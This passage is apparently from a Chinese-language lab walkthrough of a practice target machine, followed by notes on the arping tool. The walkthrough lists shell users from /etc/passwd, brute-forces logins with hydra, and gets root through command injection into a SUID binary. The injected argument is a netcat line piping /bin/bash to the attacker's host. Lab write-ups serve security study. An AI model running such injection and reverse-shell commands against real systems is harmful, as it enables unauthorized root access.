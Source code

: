    7. 由于我们获取的一个密码字段，我们可以生成一个`password.txt`的密码字典，然后通过在在kali的终端（和靶机进行输入命令的终端）输入`cat /etc/passwd | grep /bin/bash`来查看可以使用shell的用户，然后生成一个`user.txt`的字典。
   
      <img src="http://image.cchl.fun/kali_image/image-20230517150212540.png" alt="image-20230517150212540" style="zoom:50%;" />
   
   8. 然后我们通过`hydra`工具进行爆破，发现并没有成功（并没有成功并不代表这个步骤不许要做，==在真实的渗透中我认为是必须要做的一个步骤。==）
   
      <img src="http://image.cchl.fun/kali_image/image-20230517151222915.png" alt="image-20230517151222915" style="zoom:50%;" />
   
   9. 我来不断地查看靶机的文件，如下。
   
       `/home/scanner/cloudav_app`目录下的`templates`和`samples`文件夹中的文件为。其中可以很明显的发现templates是一个web的模板文件（问百度），而samples中的是一个我们检测的病毒样本。
   
       <img src="http://image.cchl.fun/kali_image/image-20230517161735212.png" alt="image-20230517161735212" style="zoom:50%;" />
   
       继续翻阅文件我们发现两个文件是很有关联的，我们可以大胆的猜测`update_cloudav.c`是源码。这个源码也是非常简单的一个C语言代码，自己阅读。==而且更为关键的是编译后的程序是具有s，既suid这个特殊权限的。==就以为在我们可以利用这个文件来使用root权限了。
   
       <img src="http://image.cchl.fun/kali_image/image-20230517162626843.png" alt="image-20230517162626843" style="zoom:33%;" />
   
       <img src="http://image.cchl.fun/kali_image/image-20230517162049239.png" alt="image-20230517162049239" style="zoom: 33%;" />
   
       我们需要注意的是`ClamAV`是一个linux的病毒扫描软件。`freshclam`相当于是一个更新`clamav`的病毒库的功能。同时对输入的参数进行的长度的限制，同时要求必须有参数的传入。
   
       是不是这种方式很熟悉？不就是刚开始网页的那种功漏洞吗？
   
   11. 我输入`./update_cloudav "aasff | nc 192.168.195.170 3000 | /bin/bash | nc 192.168.195.170 4000"`然后开启监听不久可以发现我们连接成功。==一定要加上./==我也是服了。然后我们就可以发现拿下了root权限。结束
   
        ![image-20230517164708284](http://image.cchl.fun/kali_image/image-20230517164708284.png)
   
       ![image-20230517164750327](http://image.cchl.fun/kali_image/image-20230517164750327.png)
   
        

# 相关工具的使用

### arping

1. what?

    `arping`利用ARP协议来测试主机之间的连通性。通过发送ARP请求直接与目标主机进行通信。可以更准确地确定主机之间的连通性，而不受中间设备（如路由器）的干扰。而且它通常可以获得更快的响应时间。广泛支持，该工具在多个操作系统中都可用，包括Linux、Windows和macOS等。

    此外，`arping`仅适用于在同一局域网中测试主机之间的连通性，不能用于跨网络或互联网的连通性测试。

2. 具体参数

    - `-I, --interface <接口>`：指定要使用的网络接口。
    - `-s, --source <源IP地址>`：指定发送ARP请求的源IP地址。
    - `-c, --count <次数>`：指定发送ARP请求的次数。
    - `-w, --timeout <超时时间>`：指定等待ARP响应的超时时间。
    - `-D, --duplicate`：允许发送重复的ARP请求。
    - `-U, --unicast`：使用单播模式发送ARP请求。
